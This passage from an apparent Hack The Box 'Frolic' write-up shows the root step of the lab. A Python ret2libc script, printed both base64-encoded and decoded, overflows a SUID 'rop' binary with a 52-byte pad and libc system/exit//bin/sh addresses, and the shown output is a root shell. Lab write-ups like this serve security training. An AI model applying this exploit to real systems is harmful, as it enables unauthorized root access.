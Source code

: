 The memory addresses I got for `system`, `exit`, and `/bin/sh` are in relation to the memory address of `libc`, so I need to add the hex value of each memory address to `libc`'s hex value to get the correct position in memory. I pack the memory addresses with `<I` for [little-endian][]. And I `print` the payload to turn it into the input for our `rop` program.

I test the python script and see it does appear to generate the 52-byte buffer sled and then my hex code. I base64-encode the python script to move it onto my target.

```
artis3n@kali-pop:~/shares/htb/frolic$ python exploit.py 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�=���y��
                                                            J��
artis3n@kali-pop:~/shares/htb/frolic$ cat exploit.py | base64 -w 0
IyEvdXNyL2Jpbi9lbnYgcHl0aG9uCgppbXBvcnQgc3RydWN0CgpidWZmZXJzbGVkID0gIkEiKjUyCgpsaWJjID0gMHhiN2UxOTAwMApzeXN0ZW0gPSBzdHJ1Y3QucGFjaygnPEknLCBsaWJjICsgMHgwMDAzYWRhMCkKZXhpdCA9IHN0cnVjdC5wYWNrKCc8SScsIGxpYmMgKyAweDAwMDJlOWQwKQpiaW5zaCA9IHN0cnVjdC5wYWNrKCc8SScsIGxpYmMgKyAweDAwMTViYTBiKQoKcGF5bG9hZCA9IGJ1ZmZlcnNsZWQgKyBzeXN0ZW0gKyBleGl0ICsgYmluc2gKCnByaW50IHBheWxvYWQKCg==
```

I then store the code into a file.

```bash
www-data@frolic:/dev/shm$ echo -n IyEvdXNyL2Jpbi9lbnYgcHl0aG9uCgppbXBvcnQgc3RydWN0CgpidWZmZXJzbGVkID0gIkEiKjUyCgpsaWJjID0gMHhiN2UxOTAwMApzeXN0ZW0gPSBzdHJ1Y3QucGFjaygnPEknLCBsaWJjICsgMHgwMDAzYWRhMCkKZXhpdCA9IHN0cnVjdC5wYWNrKCc8SScsIGxpYmMgKyAweDAwMDJlOWQwKQpiaW5zaCA9IHN0cnVjdC5wYWNrKCc8SScsIGxpYmMgKyAweDAwMTViYTBiKQoKcGF5bG9hZCA9IGJ1ZmZlcnNsZWQgKyBzeXN0ZW0gKyBleGl0ICsgYmluc2gKCnByaW50IHBheWxvYWQKCg== | base64 -d > exploit.py
```

And I can confirm the python script has made it.

```bash
www-data@frolic:/dev/shm$ cat exploit.py
cat exploit.py
#!/usr/bin/env python

import struct

buffersled = "A"*52

libc = 0xb7e19000
system = struct.pack('<I', libc + 0x0003ada0)
exit = struct.pack('<I', libc + 0x0002e9d0)
binsh = struct.pack('<I', libc + 0x0015ba0b)

payload = buffersled + system + exit + binsh

print payload

www-data@frolic:/dev/shm$
```

With my payload on the box, I just need to call `rop` and pass in the output of the python script's execution. And I get a root shell.

```bash
www-data@frolic:/home/ayush/.binary$ ./rop $(python /dev/shm/exploit.py)

./rop $(python /dev/shm/exploit.py)
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```


[brainfuck]: https://en.wikipedia.org/wiki/Brainfuck
[cyberchef]: https://gchq.github.io/CyberChef/
[fcrackzip]: https://github.com/hyc/fcrackzip
[gchq]: https://www.gchq.gov.uk/
[hackthebox]: https://www.hackthebox.eu
[little-endian]: https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html
[playsms]: https://playsms.org/
[ook]: https://esolangs.org/wiki/Ook!
[ret2libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[rop]: https://ctf101.org/binary-exploitation/return-oriented-programming/
[backup dirlist]: /assets/img/htb/frolic/backup-dir.png
[backup pass]: /assets/img/htb/frolic/backup-pass.png
[backup user]: /assets/img/htb/frolic/backup-user.png
[cyberchef results]: /assets/img/htb/frolic/third-cipher-to-brainfuck.png
[login source]: /assets/img/htb/frolic/9999-login-source.png
[login source creds]: /assets/img/htb/frolic/9999-login-creds-source.png
[phpinfo]: /assets/img/htb/frolic/phpinfo-test-page.png
[second cipher zip]: /assets/img/htb/frolic/second-cipher-decode.png